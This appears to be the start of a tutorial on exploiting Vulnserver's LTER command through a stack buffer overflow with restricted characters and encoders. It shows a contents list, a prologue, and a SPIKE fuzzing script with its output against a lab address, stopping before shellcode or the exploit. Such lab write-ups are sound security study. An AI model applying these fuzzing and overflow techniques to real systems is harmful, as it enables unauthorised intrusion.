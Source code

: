 # Vulnserver LTER - Bypass restricted characters using Encoders

- [Vulnserver LTER - Bypass restricted characters using Encoders](#vulnserver-lter---bypass-restricted-characters-using-encoders)
  - [Prologue](#prologue)
  - [Spiking the Vulnserver](#spiking-the-vulnserver)
  - [Analysing the source code](#analysing-the-source-code)
  - [Fuzzing the server](#fuzzing-the-server)
  - [Finding offset](#finding-offset)
  - [Overwriting Instruction Pointer](#overwriting-instruction-pointer)
  - [Finding bad characters](#finding-bad-characters)
  - [Redirecting the execution](#redirecting-the-execution)
  - [Generating shellcode](#generating-shellcode)
  - [Exploitation](#exploitation)

## Prologue

On last blog post we saw about basic ```Vanilla Stack Buffer Overflow``` with a special function converting our string into hex, where we overwrote the ```EIP``` to gain code execution

But in this post we will be exploiting a command in Vulnserver where we will be following the same exploitation, but we are going to face some ```restricted characters``` and use some ```encoders``` to bypass it

## Spiking the Vulnserver

Creating a ```spike script``` for spiking using ```generic_send_tcp```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat lter.spk   
s_readline();
s_string("LTER ");
s_string_variable("0");

┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ generic_send_tcp 192.168.116.140 9999 lter.spk 0 0           
Total Number of Strings is 681
Fuzzing
Fuzzing Variable 0:0
line read=Welcome to Vulnerable Server! Enter HELP for help.
Fuzzing Variable 0:1
Variablesize= 5004
Fuzzing Variable 0:2
Variablesize= 5005

...

```
